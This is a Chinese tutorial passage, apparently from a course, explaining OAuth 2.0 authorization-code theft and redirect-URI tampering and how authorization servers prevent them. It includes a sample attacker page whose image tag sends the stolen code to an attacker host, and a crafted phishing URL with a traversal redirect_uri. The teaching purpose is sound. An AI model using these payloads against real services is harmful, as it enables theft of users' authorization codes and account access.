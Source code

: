 接下来，我们再看两种OAuth 2.0专有的安全攻击，分别是授权码失窃、重定向URI被篡改。

## 授权码失窃

我们举个例子，先来学习授权码失窃这个场景。

如果第三方软件A有合法的app\_id和app\_secret，那么当它去请求访问令牌的时候，也是合法的。这个时候没有任何问题，让我们继续。

如果有一个用户G对第三方软件B，比如极客时间，进行授权并产生了一个授权码codeB，但并没有对攻击者软件A授权。此时，软件A是不能访问用户G的所有数据的。但这时，如果软件A获取了这个codeB，是不是就能够在没有获得用户G授权的情况下访问用户G的数据了？整个过程如下图所示。

![](https://static001.geekbang.org/resource/image/7d/7b/7d464d5a0c49a77862fef10f77cf057b.png?wh=1690*926)

**这时问题的根源就在于两点：**

- 授权服务在进行授权码校验的时候，没有校验app\_id\_B；
- 软件B（也就是极客时间）使用过一次codeB的值之后，授权服务没有删除这个codeB；

看到这里，通过校验app\_id\_B，并删除掉使用过一次的授权码及其对应的访问令牌，就可以从根本上来杜绝授权码失窃带来的危害了。

说到这里，你不禁要问了，授权码到底是怎么失窃的呢？接下来，我要介绍的就是授权码失窃的可能的方法之一，这也是OAuth 2.0中因重定向URI校验方法不当而遭受到的一种危害。这种安全攻击类型，就是重定向URI被篡改。

## 重定向URI被篡改

有的时候，授权服务提供方并没有对第三方软件的回调URI做完整性要求和完整性校验。比如，第三软件B极客时间的详细回调URI是 `https://time.geekbang.org/callback`，那么在完整性校验缺失的情况下，只要以 `https://time.geekbang.org` 开始的回调URI地址，都会被认为是合法的。

此时，如果黑客在 `https://time.geekbang.org/page/` 下，创建了一个页面 **hacker.html**。这个页面的内容可以很简单，其目的就是让请求能够抵达攻击者的服务。

```
<html>
<img src ="https://clientA.com/catch">
</html>

```

好了，我们继续看下接下来的攻击流程：

![](https://static001.geekbang.org/resource/image/04/41/04d71e6a8d32fe8b516db7e7424bf141.png?wh=1610*1260)

首先，黑客将构造的攻击页面放到对应的hacker.html上，也就是 `https://time.geekbang.org/page/hacker.html` 上 ，同时构造出了一个新的重定向URI，即 `https://time.geekbang.org/page/welcome/back.html../hacker.html`。

然后，黑客利用一些钓鱼手段诱导用户，去点击下面的这个地址：

```
https://oauth-server.com/auth?respons_type=code&client_id=CLIENTID&redirect_uri=https://time.geekbang.org/page/welcome/back.html../hacker.html

```

这样当授权服务做出响应进行重定向请求的时候，授权码code就返回到了hacker.html这个页面上。

最后，黑客在 `https://clientA.com/catch` 页面上，解析Referrer头部就会得到用户的授权码，继而就可以像授权码失窃的场景中那样去换取访问令牌了。

看到这里我们就知道了，如果授权服务要求的回调URI是 `https://time.geekbang.org/callback`，并做了回调URI的完整性校验，那么被篡改之后的回调地址 `https://time.geekbang.org/page/welcome/back.html../hacker.html` 就不会被授权服务去发起重定向请求。
